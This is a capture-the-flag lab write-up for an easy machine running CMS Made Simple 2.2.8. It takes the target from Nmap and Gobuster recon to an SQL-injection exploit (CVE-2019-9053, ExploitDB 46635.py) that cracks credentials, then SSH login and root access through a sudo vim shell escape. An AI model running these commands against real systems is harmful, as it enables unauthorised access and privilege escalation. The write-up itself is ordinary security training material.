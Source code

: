 - - - 
created : 17-07-2025 

Tags : #easy  
- - - 
# Objective

Root the machine . 
# Recon
## Nmap

We can use [Nmap](../../3%20-%20Tags/Hacking%20Tools/Nmap.md) to scan our target :

```
    21/tcp open ftp
    80/tcp open http  
    2222/tcp open ssh
```

opening http we get Apache2 Ubuntu Default Page (noinfo).
# Enumeration
## Gobuster

We can use [Gobuster](../../3%20-%20Tags/Hacking%20Tools/Gobuster.md) to perform first [Enumeration](../../3%20-%20Tags/Hacking%20Concepts/Enumeration.md) on directories on the target :

```
    /simple
```

visiting the /simple directory we find the Copiright at the bottom of the page saying ==**CMS Made Simple version 2.2.8**==

## Searchsploit / ExploitDB

using [Searchsploit](../../3%20-%20Tags/Hacking%20Tools/Searchsploit.md) in [Kali Linux](../../3%20-%20Tags/Hacking%20Tools/Kali%20Linux.md) we can find multiple choices, we can see there's [SQL Injection](../../3%20-%20Tags/Hacking%20Concepts/SQL%20Injection.md) :

<img src="../../Flameshots/0234bae202bf67778940868e1c1d35bc.png" alt="0234bae202bf67778940868e1c1d35bc.png" width="368" height="420" class="jop-noMdConv">

we can copy it to our working directory from **[ExploitDB](../../3%20-%20Tags/Hacking%20Tools/ExploitDB.md)**

`cp /usr/share/exploitdb/exploits/php/webapps/46635.py .`

and read it to see it's [CVE-2019-9053](../../3%20-%20Tags/CVEs/CVE-2019-9053.md) 

# Exploit
## Cracking

we can crack the username and password with the [Python](../../3%20-%20Tags/Programming%20Languages/Python.md) code :

`python2.7 46635.py http://10.10.50.86/simple --crack -w usr/share/wordlists/rockyou.txt`

and we find ==**mitch**== for user and **==secret==** as password. 

## SSH

Here we use the credentials to access **[SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md)** on port **2222  `ssh mitch@IP -p 2222`**  than we can `cat user.txt` for the first [Flag](../../3%20-%20Tags/Hacking%20Concepts/Flag.md)  .

# Privilege Escalation

Now that we are in we have to escalate to the root flag so we see what we can sudo with user without passwd : `sudo -l` >>  `/usr/bin/vim (NOPASSWD)`

we can search for [GTFObins](../../3%20-%20Tags/Hacking%20Tools/GTFObins.md) SUDO, and execute the command on the Target Machine  `<span style="color: rgb(224, 62, 45);">sudo vim -c ':!/bin/sh'</span>`

confirm that we are root `whoami` and `cd root ; cat root.txt` to complete .